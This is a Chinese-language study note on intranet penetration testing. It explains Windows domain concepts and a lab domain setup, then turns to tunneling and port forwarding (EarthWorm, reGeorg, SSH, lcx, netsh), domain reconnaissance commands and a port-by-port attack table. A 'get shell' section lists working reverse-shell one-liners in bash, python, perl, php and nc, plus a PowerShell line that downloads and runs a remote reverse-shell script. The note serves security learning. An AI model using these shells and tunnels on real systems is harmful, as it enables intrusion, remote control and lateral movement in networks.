

内网Learn

[toc]

# 1.名词解释

工作组、域、域控制器（DC）、父域、子域、域树、域森林、活动目录（AD）、DMZ、域内权限等

## 工作组

将不同的计算机按功能列入到不同的工作组中。工作组没有集中管理的作用，工作组中所有的计算机都是对等的。工作组不受密码保护。一个账户只能登陆到一台计算机。每一台计算机都在本地存储用户的帐户。

工作组的正规解释：在一个大的单位内，可能有成百上千台电脑互连组成局域网，如果这些电脑不分组，可想而知有多么混乱，要找一台电脑很困难。为了解决这一问题，就有了“工作组”这个概念，将不同的电脑一般按功能（或部门）分别列入不同的工作组中。

每台计算机都是对等的，`a`机器不能登录`b`机器。

## 域

[域，域树，域林，根域](https://blog.51cto.com/angerfire/144123)

[内网基础知识](https://www.cnblogs.com/-mo-/p/11906772.html)

域(Domain)是一个有安全边界的计算机集合（安全边界意思是在两个域中，一个域中的用户无法访问另一个域中的资源），可以简单的把域理解成升级版的“工作组”，相比工作组而言,它有一个更加严格的安全管理控制机制,如果你想访问域内的资源,必须拥有一个合法的身份登陆到该域中,而你对该域内的资源拥有什么样的权限,还需要取决于你在该域中的用户身份。

域控制器（Domain Controller，简写为DC）是一个域中的一台类似管理服务器的计算机，相当于一个单位的门卫一样，它负责每一台联入的电脑和用户的验证工作，域内电脑如果想互相访问首先都是经过它的审核。

### 单域

在一般的具有固定地理位置的小公司里，建立一个域就可以满足所需。
一般在一个域内要建立至少两个域服务器，一个作为DC，一个是备份DC。如果没有第二个备份DC，那么一旦DC瘫痪了，则域内的其他用户就不能登陆该域了，因为活动目录的数据库（包括用户的帐号信息）是存储在DC中的。而有一台备份域控制器（BDC），则至少该域还能正常使用，期间把瘫痪的DC恢复了就行了。

### 父域和子域

出于管理及其他一些需求，需要在网络中划分多个域，第一个域称为父域，各分部的域称为该域的子域。

比如一个大公司，它的不同分公司在不同的地理位置，则需父域及子域这样的结构。如果把不同地理位置的分公司放在同一个域内，那么他们之间信息交互（包括同步，复制等）所花费的时间会比较长，而且占用的带宽也比较大。（因为在同一个域内，信息交互的条目是很多的，而且不压缩；而在域和域之间，信息交互的条目相对较少，而且压缩。）

还有一个好处，就是子公司可以通过自己的域来管理自己的资源。

还有一种情况，就是出于安全策略的考虑，因为每个域都有自己独有的安全策略。比如一个公司的财务部门希望能使用特定的安全策略（包括帐号密码策略等），那么可以将财务部门做成一个子域来单独管理。

### 域树

在一个域树中，父域可以包含很多子域，子域是相对父域来说的，指域名中的每一个段。子域只能使用父域作为域名的后缀，也就是说在一个域树中，域的名字是连续的。


### 域森林


### DNS域名服务器

DNS域名服务器（Domain Name Server）是进行域名(domain name)和与之相对应的IP地址 (IP address)转换的服务器。

在域树的介绍中，可以看到域树中的域的名字和DNS域的名字非常相似，实际上域的名字就是DNS域的名字，因为域中的计算机使用DNS来定位域控制器和服务器以及其他计算机、网络服务等。

一般情况下,我们在内网渗透时就通过寻找DNS服务器来定位域控制器，因为通常DNS服务器和域控制器会处在同一台机器上。

### 活动目录（AD）

域环境中提供目录服务的组件。

就是存储有关网络对象（如用户、组、计算机、共享资源、打印机和联系人等）的信息。目录服务是帮助用户快速准确的从目录中查找到他所需要的信息的服务。

### AD与DC的区别

把存放有活动目录数据库的计算机就称为DC。所以说我们要实现域环境，其实就是要安装AD，当内网中的一台计算机安装了AD后，它就变成了DC。

### 安全域划分

安全域划分的目的是将一组安全等级相同的计算机划入同一个网段内，这一网段内的计算机拥有相同的网络边界，在网络边界上采用防火墙部署来实现对其他安全域的NACL（网络访问控制策略），允许哪些IP访问此域、不允许哪些访问此域；允许此域访问哪些IP/网段、不允许访问哪些IP/网段。使得其风险最小化，当发生攻击时可以将威胁最大化的隔离，减少对域内计算机的影响。


1.内网（安全级别最高）：分为核心区（存储企业最重要的数据，只有很少的主机能够访问）和办公区（员工日常工作区，一般能够访问DMZ，部分主机可以访问核心区）

2.DMZ（Demilitarized Zone，边界网络，隔离区，安全级别中等）：作为内网中安全系统和非安全系统之间的缓冲区，用于对外提供服务，一般可以放置一些必须公开的服务器设施

3.外网（Internet，安全级别最低）

## DMZ区域

DMZ称为“隔离区”，也称“非军事化区”。是为了解决安装防火墙后外部网络不能访问内部网络服务器的问题，而设立的一个非安全系统与安全系统之间的缓冲区。
这个缓冲区位于企业内部网络和外部网络之间的小网络区域内，在这个小网络区域内可以放置一些必须公开的服务器设施，如企业Web服务器、FTP服务器和论坛等。
另一方面，通过这样一个DMZ区域，更加有效地保护了内部网络，因为这种网络部署，比起一般的防火墙方案，对攻击者来说又多了一道关卡。

-   内网可以访问外网：内网的用户需要自由地访问外网。在这一策略中，防火墙需要执行NAT。
-   内网可以访问DMZ：此策略使内网用户可以使用或者管理DMZ中的服务器。
-   外网不能访问内网：这是防火墙的基本策略了，内网中存放的是公司内部数据，显然这些数据是不允许外网的用户进行访问的。如果要访问，就要通过VPN方式来进行。
-   外网可以访问DMZ：DMZ中的服务器需要为外界提供服务，所以外网必须可以访问DMZ。同时，外网访问DMZ需要由防火墙完成对外地址到服务器实际地址的转换。
-   DMZ不能访问内网：如不执行此策略，则当入侵者攻陷DMZ时，内部网络将不会受保护。　
-   DMZ不能访问外网：此条策略也有例外，比如我们的例子中，在DMZ中放置邮件服务器时，就需要访问外网，否则将不能正常工作。

## 域内权限

组（Group）是用户帐号的集合。通过向一组用户分配权限从而不必向每个用户分配权限，管理员在日常工作中不必要去为单个用户帐号设置自己独特的访问权限，而是将用户帐号加入到相对应的安全组中。

### 1.域本地组

可以从域林中添加用户账号，权限只限于本域资源的访问。

### 2.全局组

可以从本域中添加用户账号，权限可以访问整个域林的资源。

### 3.通用组

可从整个域林添加成员，权限可访问整个域林的资源。

### 4.A-G-DL-P策略

A-G-DL-P策略 （A:表示用户账户、G:表示全局组、U:表示通用组、DL:表示域本地组、P:表示资源权限）

# 2.域搭建

>   DC: win2008 ，密码Admin123
>   DM: win2003
>   DM: winxp

DC2008：

网络配置


添加服务器角色：


配置域服务(在administrator用户下。。)：

dos下：`dcpromo`


提示错误的话，管理员cmd`net user administrator /passwordreq:yes`


设置林根域：

林就是在多域情况下形成的森林,根表示基础,其他在此根部衍生


域数据存放的地址：


密码还是设置为Admin123!

接下来就是配置win2003和xp，都和08差不多

配置的dns要设置为主域控的ip：192.168.188.100


# 3.端口转发&边界代理

先说下正向代理和反向代理：

正向代理：`Lhost-->proxy-->Rhost`

反向代理：`Lhost<--->proxy<--->firewall<--->Rhost`，一般情况下，防火墙肯定不能让外网机器随便访问地访问内网机器，所以就提出反向代理。

Lhost只向proxy发送普通的请求，具体让他转到哪里，proxy自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许proxy数据进出的时候可以有效的进行穿透。

代理的本质：socks协议，位于会话层（应用层）

Socks介于传输层与表示层之间，使用TCP协议传输数据，因而不提供如传递ICMP信息之类的网络层相关服务。

目前有两个版本：SOCKS4和SOCKS5

SOCKS4支持TELNET、FTPHTTP等TCP协议；

SOCKS5支持TCP与UDP，并支持安全认证方案。

Ps: Socks不支持ICMP，不能使用ping命令

使用nc演示

>   主机A：192.168.153.138
>
>   主机B：192.168.153.140

正向：

A机：`nc -l -p 5555 -t -e cmd.exe`，-t是通过telnet模式执行 cmd.exe 程序，可以省略

B机：`nc -nvv 192.168.153.138 5555`，

反向：

B机：监听 `nc-lp 5555`

在A机反弹：`nc -t -e cmd 192.168.153.140 5555`

## reGeorg+Proxychains

主要是把内网服务器的端口通过http/https隧道转发到本机。

上传reGeorg的tunnel.jsp到web主机A

主机B：`python reGeorgSocksProxy.py -p 1080 -u http://192.168.153.137/tunnel.jsp`

使用设置proxychains的代理端口，进行访问，一般配合nmap和metasploit进行后续内网渗透。

Ps：socks4版本协议不支持udp和icmp协议，所以使用nmap要加上-sT -Pn即使用tcp协议且不使用icmp协议。

## Earthworm+Proxychains

### 反弹socks5服务器

当目标网络边界不存在公网IP，通过反弹方式创建socks代理。

先在一台具有公网 ip 的主机A上运行以下命令

`./ew_for_linux64 -s rcsocks -l 1080 -e 8888`

意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给8888端口

在目标主机B上启动SOCKS5服务 并反弹到公网主机的8888端口

`ew_for_Win.exe -s rssocks -d 192.168.153.129(VPS) -e 8888`

本地主机（192.168.153.129）然后通过添加公网192.168.153.129:1080这个代理,来访问内网机器（192.168.153.129）

### 二级网络环境（有公网IP）

假设我们获得了右侧A主机和B主机的控制权限，A主机配有2块网卡，一块10.129.72.168连通外网，一块192.168.153.140只能连接内网B主机，无法访问内网其它资源。B主机可以访问内网资源，但无法访问外网。


先上传ew到B主机，利用ssocksd方式启动8888端口的SOCKS代理，命令如下`ew_for_Win.exe -s ssocksd -l 8888`

A主机执行：`ew_for_Win.exe -s lcx_tran -l 1080 -f 192.168.153.138 -g 8888`(将1080端口收到的代理请求转交给B主机（192.168.153.138）的8888端口)

MyPc就可以通过A的外网代理10.129.72.168:1080访问B。

### 二级网络（无公网IP）

假设我们获得了右侧A主机和B主机的控制权限，A主机（NAT）没有公网IP，也无法访问内网资源。B主机可以访问内网资源，但无法访问外网。


1.  在公网vps（45.xxx.xxx.72）添加转接隧道，将10800端口收到的代理请求转交给8888端口`./ew_for_linux64 -s lcx_listen -l 10800 -e 8888`

2.  B主机（192.168.153.138）主机正向开启9999端口

    `./ew_for_Win.exe -s ssocksd -l 9999`

3.  A主机利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来

    `./ew_for_Win.exe -s lcx_slave -d 45.xxx.xxx.72 -e 8888 -f 192.168.153.138 -g 9999`

现在MyPC可通过访问45.xxx.xxx.72:10800来使用192.168.153.138主机提供的socks5代理，代理成功，vps会有rssocks cmd_socket OK!提示


## SSH隧道代理转发

sh有三个强大的端口转发命令，分别是本地转发、远程转发、动态转发。

```sh
ssh -qTfnN -D port remotehost

参数详解：
-C 允许压缩数据
-q 安静模式
-T不占用 shell
-f 后台运行，并推荐加上 -n 参数
-N不执行远程命令
-g允许远端主机连接本地转发的端口
-n把 stdin 重定向到 /dev/null (防止从 stdin 读取数据)
-L port:host :hostport 正向代理
//将本地机(客户机)的某个端口转发到远端指定机器的指定端口
-R port:host :hostport 反向代理
//将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口
-D port socks5代理
//指定一个本地机器 "动态" 应用程序端口转发
```

### ssh本地转发

本地转发（local forwarding）指的是，SSH 服务器作为中介的跳板机，建立本地计算机与特定目标网站之间的加密连接。本地转发是在本地计算机的 SSH 客户端建立的转发规则。

它会指定一个本地端口（local-port），所有发向那个端口的请求，都会转发到 SSH 跳板机（tunnel-host），然后 SSH 跳板机作为中介，将收到的请求发到目标服务器（target-host）的目标端口（target-port）。

远程管理服务器上的mysql，mysql不能直接root用户远程登陆。这时候就可以通过本地转发，通过ssh将服务器的3306端口转发到本地1234端口实现以root用户远程登陆mysql。

`$ ssh -L local-port:target-host:target-port tunnel-host`

`ssh -CfNg -L 1234:127.0.0.1:3306 root@45.XX.XX.X21`

另一例子：

假定host1是本地主机，host2是远程主机。由于种种原因，这两台主机之间无法连通。但是，另外还有一台host3，可以同时连通前面两台主机。因此，很自然的想法就是，通过host3，将host1连上host2。

```sh
#在host1上：
ssh -L 2121:host2:21 host3
#这样一来，我们只要连接host1的2121端口，就等于连上了host2的21端口。
ftp localhost:2121
```


### ssh远程转发

内网的服务器，外网不能直接访问，使用远程转发，将内网的服务器端口转发到外网端口。这时候访问外网的端口，就可以直接访问到了内网的端口。

将远程主机(服务器)的某个端口转发到本地端指定机器的指定端口

既然"本地端口转发"是指绑定本地端口的转发，那么"远程端口转发"当然是指绑定远程端口的转发。

host1与host2之间无法连通，必须借助host3转发。但是，特殊情况出现了，host3是一台内网机器，它可以连接外网的host1，但是反过来就不行，外网的host1连不上内网的host3。这时，"本地端口转发"就不能用了，怎么办？

解决办法是，既然host3可以连host1，那么就从host3上建立与host1的SSH连接，然后在host1上使用这条连接就可以了。

```sh
#host3上
ssh -R 2121:host2:21 host1
#就是让host1监听它自己的2121端口，然后将所有数据经由host3，转发到host2的21端口。由于对于host3来说，host1是远程主机，所以这种情况就被称为"远程端口绑定"。

#host1上：
ftp localhost:2121
```

### 动态端口转发

无论是本地端口转发还是远程端口转发，都是将某固定主机及其端口映射到本地或远程转发端口上，例如将host2:80映射到host1:2222。也就是说，本地或远程转发端口和目标端口所代表的应用层协议是一对一的关系，2222端口必须对应的是http的80端口，使用浏览器向host1:2222端口发起http请求当然没问题，但是使用ssh工具向host1:2222发起连接将会被拒绝，因为host2上http服务只能解析http请求，不能解析ssh连接请求。

ssh支持动态端口转发，由ssh来判断发起请求的工具使用的是什么应用层协议，然后根据判断出的协议结果决定目标端口。
以下图为例进行说明，host1处在办公内网，能和host3互相通信，但它无法直接和互联网和host2通信，而host3则可以和host2以及互联网通信。



要让host1访问互联网，又能和host2的22端口即ssh服务通信，显然在host1上仅设置一个本地端口转发是不够的，虽然可以设置多个本地转发端口分别映射不同的端口，但这显然比较笨重和麻烦。使用动态端口转发即可。

```sh
#在host1上
ssh -Nfg -D 2222 host3
```


## 端口转发

尝试几个常用的

win：lcx

```
监听1234端口,转发数据到2333端口
本地:lcx.exe -listen 1234 2333

将目标的3389转发到本地的1234端口
远程:lcx.exe -slave ip 1234 127.0.0.1 3389
```

netsh
只支持tcp协议

```
添加转发规则
netsh interface portproxy set v4tov4 listenaddress=192.168.206.101 listenport=3333 connectaddress=192.168.206.100 connectport=3389
此工具适用于，有一台双网卡服务器，你可以通过它进行内网通信，比如这个，你连接192.168.206.101:3388端口是连接到100上面的3389

删除转发规则
netsh interface portproxy delete v4tov4 listenport=9090

查看现有规则
netsh interface portproxy show all

xp需要安装ipv6
netsh interface ipv6 install
```

linux :

portmap

```
监听1234端口,转发数据到2333端口
本地:./portmap -m 2 -p1 1234 -p2 2333

将目标的3389转发到本地的1234端口
./portmap -m 1 -p1 3389 -h2 ip -p2 1234
```

iptables

```
1、编辑配置文件/etc/sysctl.conf的net.ipv4.ip_forward = 1

2、关闭服务
service iptables stop

3、配置规则
需要访问的内网地址：192.168.206.101
内网边界web服务器：192.168.206.129
iptables -t nat -A PREROUTING --dst 192.168.206.129 -p tcp --dport 3389 -j DNAT --to-destination 192.168.206.101:3389

iptables -t nat -A POSTROUTING --dst 192.168.206.101 -p tcp --dport 3389 -j SNAT --to-source 192.168.206.129

4、保存&&重启服务
service iptables save && service iptables start
```

## socket代理

Windows：xsocks，进行代理后，在windows下推荐使用Proxifier进行socket连接，规则自己定义

linux：

进行代理后，推荐使用proxychains进行socket连接

kali下的配置文件：
/etc/proxychains.conf
添加一条：socks5 	127.0.0.1 8888

然后在命令前加proxychains就进行了代理

```
proxychains curl 192.168.111111
```


# 4.获取shell

## 常规

常用一句话反弹shell：

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.1.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

bash -i >& /dev/tcp/172.16.1.130/4444 0>&1

nc 172.16.1.130 4444 -t -e /bin/bash

php -r '$sock=fsockopen("172.16.1.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

perl -e 'use Socket;$i="172.16.1.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh \-i");};'


powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
\-Reverse -IPAddress 172.16.1.130 -port 4444
```

## ICMP隧道反弹shell

[工具GitHub](https://github.com/bdamele/icmpsh)

有时候防火墙可能对tcp进行来处理，然而对imcp并没有做限制的时候，可以使用icmp弹shell。

直接跑run.sh，就OK，在靶机下运行生成的命令。

# 5.信息收集

## 基本命令

### 查看当前网卡和IP信息：

可以看到通过查看网卡信息可以判断出当前机器是否在域内，以及是否是⼀台域机器


### 查看操作系统信息

`systeminfo`


通过查看系统的详细信息我们可以判断出当前主机是一台属于域内的机器，因为在工作组环境的机器只会显示WORKGROUP，而域则会显示域地址。

### 查看当前登陆域及域用户


### 查看域内时间

`net time /domain`

```javascript
运行 net time /domain 该命令后，一般会有如下三种情况:

1.存在域，但当前用户不是域用户，提示说明权限不够
  C:\Users>bypass>net time /domain
  发生系统错误 5
  拒绝访问。

2.存在域，并且当前用户是域用户
   C:\Users\Administrator>net time /domain
   \\dc.test.com 的当前时间是 2020/10/23 21:18:37

   命令成功完成。

3.当前网络环境为工作组，不存在域
   C:\Users\Administrator>net time /domain
   找不到域 WORKGROUP 的域控制器。
```

查找域


### 查找域内所有计算机

`net view /domain GHOST`

### 查询域内所有用户组列表(默认13个)

```
net group /domain
```

### 查询所有域成员计算机列表

`net group "domain computer" /domain`


### 查找域控制器

`nltest /dclist:ghost`


### 查看域控制器的主机名

`Nslookup -type=SRV _ldap._tcp`


### 查看域控制器

`net group "domain controllers" /doamin`


### 查询域管理员列表

`net group "domain admins" /domain`


### 获取所有域用户列表

`net group "domain users" /domain`


### nltest查询信任域

信任域：可以在工作组里查询，查询内网里是否有域环境

```sh
C:\Users\yutaowin10>nltest /domain_trusts /all_trusts  /v /server:192.168.188.100
域信任的列表:
    0: GHOST ghost.com (NT 5) (Forest Tree Root) (Primary Domain) (Native)
       Dom Guid: 9212c4c0-c5ea-49ff-9d48-84fa55b8d0a8
       Dom Sid: S-1-5-21-1238213221-2393825874-2881136966
此命令成功完成
```

返回所有信任192.168.188.100的域

`nltest /dsgetdc:ghost /server:192.168.188.100`

```sh
C:\Users\yutaowin10>nltest /dsgetdc:ghost /server:192.168.188.100
           DC: \\WIN-4JS3YOGGQ2T
      地址: \\192.168.188.100
     Dom Guid: 9212c4c0-c5ea-49ff-9d48-84fa55b8d0a8
     Dom 名称: GHOST
  林名称: ghost.com
 DC 站点名称: Default-First-Site-Name
我们的站点名称: Default-First-Site-Name
        标志: PDC GC DS LDAP KDC TIMESERV GTIMESERV WRITABLE DNS_FOREST CLOSE_SITE FULL_SECRET
此命令成功完成
```


## 端口收集

| 端口号      | 端口说明               | 攻击技巧                                                     |
| ----------- | ---------------------- | ------------------------------------------------------------ |
| 21/22/69    | ftp/tftp：文件传输协议 | 爆破\嗅探\溢出\后门                                          |
| 22          | ssh：远程连接          | 爆破OpenSSH；28个退格                                        |
| 23          | telnet：远程连接       | 爆破\嗅探                                                    |
| 25          | smtp：邮件服务         | 邮件伪造                                                     |
| 53          | DNS：域名系统          | DNS区域传输\DNS劫持\DNS缓存投毒\DNS欺骗\利用DNS隧道技术刺透防火墙 |
| 67/68       | dhcp                   | 劫持\欺骗                                                    |
| 110         | pop3                   | 爆破                                                         |
| 139         | samba                  | 爆破\未授权访问\远程代码执行                                 |
| 143         | imap                   | 爆破                                                         |
| 161         | snmp                   | 爆破                                                         |
| 389         | ldap                   | 注入攻击\未授权访问                                          |
| 512/513/514 | linux r                | 直接使用rlogin                                               |
| 873         | rsync                  | 未授权访问                                                   |
| 1080        | socket                 | 爆破：进行内网渗透                                           |
| 1352        | lotus                  | 爆破：弱口令\信息泄漏：源代码                                |
| 1433        | mssql                  | 爆破：使用系统用户登录\注入攻击                              |
| 1521        | oracle                 | 爆破：TNS\注入攻击                                           |
| 2049        | nfs                    | 配置不当                                                     |
| 2181        | zookeeper              | 未授权访问                                                   |
| 3306        | mysql                  | 爆破\拒绝服务\注入                                           |
| 3389        | rdp                    | 爆破\Shift后门                                               |
| 4848        | glassfish              | 爆破：控制台弱口令\认证绕过                                  |
| 5000        | sybase/DB2             | 爆破\注入                                                    |
| 5432        | postgresql             | 缓冲区溢出\注入攻击\爆破：弱口令                             |
| 5632        | pcanywhere             | 拒绝服务\代码执行                                            |
| 5900        | vnc                    | 爆破：弱口令\认证绕过                                        |
| 6379        | redis                  | 未授权访问\爆破：弱口令                                      |
| 7001        | weblogic               | Java反序列化\控制台弱口令\控制台部署webshell                 |
| 80/443/8080 | web                    | 常见web攻击\控制台爆破\对应服务器版本漏洞                    |
| 8069        | zabbix                 | 远程命令执行                                                 |
| 9090        | websphere控制台        | 爆破：控制台弱口令\Java反序列                                |
| 9200/9300   | elasticsearch          | 远程代码执行                                                 |
| 11211       | memcacache             | 未授权访问                                                   |
| 27017       | mongodb                | 爆破\未授权访问                                              |

